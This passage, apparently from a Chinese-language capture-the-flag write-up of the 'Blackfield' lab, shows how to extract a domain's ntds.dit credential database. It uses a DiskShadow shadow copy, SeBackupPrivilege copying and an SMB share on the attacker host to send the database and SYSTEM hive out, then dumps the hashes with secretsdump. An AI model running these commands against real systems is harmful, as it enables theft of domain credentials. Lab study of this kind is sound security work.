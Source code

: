 - 紧接上文， ntds.dit 是域内信息文件，如果能读的话导下来本地破解。但是需要很高的权限才能读，且一直被进程占用，相当于被锁住了无法下载下来，上文 [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) 组 里绕过了权限问题，这里解决 DiskShadow 来绕过进程锁住的问题

  [good breakdown](https://pentestlab.blog/tag/diskshadow/)    [PentestLab blog](https://pentestlab.blog/tag/diskshadow/) 

  kali：

  ```bash
  └─# vim vss.dsh
  
  ┌──(root💀kali)-[~/Blackfield]
  └─# unix2dos vss.dsh
  unix2dos: converting file vss.dsh to DOS format...
                          
  ┌──(root💀kali)-[~/Blackfield]
  └─# cat vss.dsh
  set context persistent nowriters
  set metadata c:\programdata\df.cab
  set verbose on
  add volume c: alias df
  create
  expose %df% z:
  ```

  靶机：

  ```powershell
  *Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
  *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
  ```

  

- 靶机文件传回 kali，紧接上文，传回 ntds.dit

  kali 开启 smb 共享

  ```bash
  smbserver.py s . -smb2support -username zf1yolo -password zf1yolo
  ```

  靶机连接，传送 ntds.dit 文件，这个过程很慢很慢，配合 `Copy-FileSeBackupPrivilege`

  ```powershell
  net use \\10.10.16.5\s /u:zf1yolo zf1yolo
  Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.16.5\s\ntds.dit
  net use /d \\10.10.16.5\share
  ```




- 破解 ntds.dit ，紧接上文，还要得到 key。于是靶机把 key 传回到 kali（还是smb共享实现），再用脚本破解

  ```bash
  reg.exe save hklm\system \\10.10.16.5\s\system
  secretsdump.py -system system -ntds ntds.dit LOCAL > ntds.white
  ```

  ```bash
  cat ntds.white | grep Admin
  ```

